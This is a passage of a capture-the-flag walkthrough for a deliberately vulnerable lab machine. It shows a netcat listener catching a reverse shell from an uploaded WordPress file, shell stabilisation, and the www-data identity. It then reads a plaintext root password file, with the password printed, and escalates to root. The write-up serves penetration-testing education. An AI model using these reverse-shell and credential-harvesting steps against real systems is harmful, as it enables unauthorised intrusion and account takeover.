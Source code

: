 Then we first setup a netcat listener on port 443 and request with the browser the reverse shell.
![](/assets/images/evm/screenshot-11.png)

And we get a reverse shell with permissions that the web application is running.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.144] 43786
bash: cannot set terminal process group (1439): Inappropriate ioctl for device
bash: no job control in this shell
<var/www/html/wordpress/wp-content/uploads/2021/08$ script bash /dev/null
script bash /dev/null
$ bash
bash
<var/www/html/wordpress/wp-content/uploads/2021/08$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation
### Exposed Credentials

Into the **/home/root3r** directory I found the password for the root user in the **.root_password_ssh.txt** file. 

```console
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ ls -la
ls -la    
total 40            
drwxr-xr-x 3 www-data www-data 4096 Nov  1  2019 .  
drwxr-xr-x 3 root     root     4096 Oct 30  2019 ..  
-rw-r--r-- 1 www-data www-data  515 Oct 30  2019 .bash_history
-rw-r--r-- 1 www-data www-data  220 Oct 30  2019 .bash_logout 
-rw-r--r-- 1 www-data www-data 3771 Oct 30  2019 .bashrc
drwxr-xr-x 2 www-data www-data 4096 Oct 30  2019 .cache
-rw-r--r-- 1 www-data www-data   22 Oct 30  2019 .mysql_history
-rw-r--r-- 1 www-data www-data  655 Oct 30  2019 .profile
-rw-r--r-- 1 www-data www-data    8 Oct 31  2019 .root_password_ssh.txt
-rw-r--r-- 1 www-data www-data    0 Oct 30  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root     root        4 Nov  1  2019 test.txt
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ cat .roo*
cat .roo*
willy26
```

Then we switch to the root user with the found password, and we get root.
